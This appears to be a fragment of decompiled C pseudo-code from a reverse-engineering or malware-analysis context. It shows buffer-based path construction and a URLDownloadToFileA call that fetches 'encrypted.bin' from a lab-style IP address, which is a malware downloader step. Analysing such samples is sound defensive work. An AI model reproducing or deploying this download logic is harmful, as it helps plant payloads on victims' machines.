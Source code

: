 ```c
    v7 = 260 - v5;
    if ( v5 )
    {
      v8 = &v40[v7];
      v9 = 260 - v7;
      if ( v7 != 260 )
      {
        v10 = 2147483646;
        v11 = (char *)("\\encrypted.bin" - v8);
        do
        {
          if ( !v10 )
            break;
          v12 = v8[(_QWORD)v11];
          if ( !v12 )
            break;
          *v8 = v12;
          --v10;
          ++v8;
          --v9;
        }
        while ( v9 );
      }
      v13 = v8 - 1;
      if ( v9 )
        v13 = v8;
      *v13 = 0;
    }
    URLDownloadToFileA(0, "https://10.10.70.114/encrypted.bin", v40, 0, 0);
  }
  v14 = 260;
  v15 = v41;
  do
  {
    if ( v14 == -2147483386 )
      break;
    v16 = v15[pszPath - v41];
    if ( !v16 )
      break;
    *v15++ = v16;
    --v14;
  }
  while ( v14 );
  v17 = v15 - 1;
  if ( v14 )
    v17 = v15;
  v18 = 260;
  *v17 = 0;
  v19 = v41;
  do
  {
    if ( !*v19 )
      break;
    ++v19;
    --v18;
  }
  while ( v18 );
  v20 = 260 - v18;
  if ( v18 )
  {
    v21 = &v41[v20];
    v22 = 260 - v20;
    if ( v20 != 260 )
```